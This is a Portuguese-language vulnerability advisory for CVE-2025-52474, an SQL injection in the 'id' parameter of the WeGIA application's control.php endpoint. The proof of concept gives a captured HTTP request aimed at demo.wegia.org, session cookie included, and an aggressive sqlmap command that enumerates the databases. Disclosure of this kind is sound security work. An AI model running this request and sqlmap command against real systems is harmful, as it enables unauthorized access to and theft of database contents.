

## CVE-2025-52474: Vulnerabilidade de Injeção SQL no parâmetro `id` do endpoint `control.php`

> *Publicação CVE: https://www.cve.org/CVERecord?id=CVE-2025-52474*

## Resumo

<p style="text-align: justify;">Uma vulnerabilidade de Injeção SQL foi identificada no parâmetro <code>id</code> do endpoint <code>/WeGIA/controle/control.php</code>. Esta vulnerabilidade permite que invasores manipulem consultas SQL e acessem informações confidenciais do banco de dados, como nomes de tabelas e dados sensíveis.</p>

## Detalhes

Endpoint Vulnerável: `GET /controle/control.php?nomeClasse=MedicamentoControle&metodo=adicionarMedicamento&modulo=pet&nomeMedicamento=DApvMr&id=<PAYLOAD>&aplicacaoMedicamento=YqchRf&descricaoMedicamento=Mrnfdh HTTP/1.1`

Parâmetro: `id`

## PoC

Salve a solicitação no arquivo req.txt:

````terminal
GET /controle/control.php?nomeClasse=MedicamentoControle&metodo=adicionarMedicamento&modulo=pet&nomeMedicamento=DApvMr&id=1&aplicacaoMedicamento=YqchRf&descricaoMedicamento=Mrnfdh HTTP/1.1
Host: demo.wegia.org
Connection: keep-alive
sec-ch-ua-platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html, */*; q=0.01
sec-ch-ua: "Chromium";v="136", "Google Chrome";v="136", "Not.A/Brand";v="99"
sec-ch-ua-mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://demo.wegia.org/html/home.php
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: _ga=GA1.1.2068698375.1747601288; _ga_F8DXBXLV8J=GS2.1.s1747660538$o4$g0$t1747660538$j60$l0$h0$dyaL3bJ27Uic34e3jqHnkw5lGenE0npxF8g; PHPSESSID=o79b1cq9suo2gksfpnvr4cus4o
````

Em seguida, use o sqlmap:

````terminal
sqlmap -r req -p id --risk=3 --level=5 --dbs --batch --dbms=mysql --batch 
````



## Impacto

<p style="text-align: justify;">
  <ul>
    <li>Acesso não autorizado a dados sensíveis: Um invasor pode acessar informações confidenciais, como credenciais, dados pessoais ou financeiros.</li>
    <li>Comprometimento de contas de usuários: Usando credenciais roubadas, invasores podem obter acesso total ao aplicativo e executar ações em nome de usuários legítimos.</li>
    <li>Exfiltração de dados: Possibilidade de roubo de grandes volumes de informações, despejando tabelas inteiras do banco de dados.</li>
    <li>Danos à reputação: Expor dados de clientes ou informações comerciais pode prejudicar significativamente a Imagem da organização.</li>
    <li>Execução de ataques em cadeia: As informações obtidas podem ser usadas para realizar novos ataques, como phishing direcionado ou ataques a sistemas interconectados.</li>
  </ul>
</p>

## Referência

[https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-rwvh-2gfh-wmcm](https://github.com/LabRedesCefetRJ/WeGIA/security/advisories/GHSA-rwvh-2gfh-wmcm)

## Encontrado por

[](https://www.linkedin.com/in/nmmorette) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette)

> *Por: [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*